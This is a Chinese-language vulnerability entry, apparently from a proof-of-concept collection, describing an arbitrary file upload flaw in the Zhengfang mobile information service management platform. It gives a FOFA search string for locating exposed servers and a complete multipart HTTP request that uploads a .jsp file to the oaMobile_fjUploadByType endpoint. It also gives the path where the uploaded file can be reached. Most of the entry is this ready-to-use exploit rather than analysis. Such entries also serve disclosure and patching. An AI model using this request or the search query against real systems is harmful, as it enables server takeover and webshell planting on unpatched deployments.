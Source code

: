 # 正方移动信息服务管理系统oaMobile_fjUploadByType存在文件上传漏洞

正方软件股份有限公司移动信息服务管理平台存在任意文件上传漏洞。攻击者可通过任意文件上传获取服务器权限。

## fofa

```yaml
title="移动信息服务管理" || body="URL=/zftal-mobile"
```

## poc

```java
POST /zftal-mobile/oaMobile/oaMobile_fjUploadByType.html HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.1707.77 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Accept: */*
Content-Length: 457

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="yhm"

123
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="zid"

456
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="sign"

789
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="409.jsp"
Content-Type: text/plain

111
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

文件路径

` /zftal-mobile/oaFjUploadByType/409.jsp`



## 漏洞来源

- https://mp.weixin.qq.com/s/WrDhyx3wOdwMvSwkF-sXOQ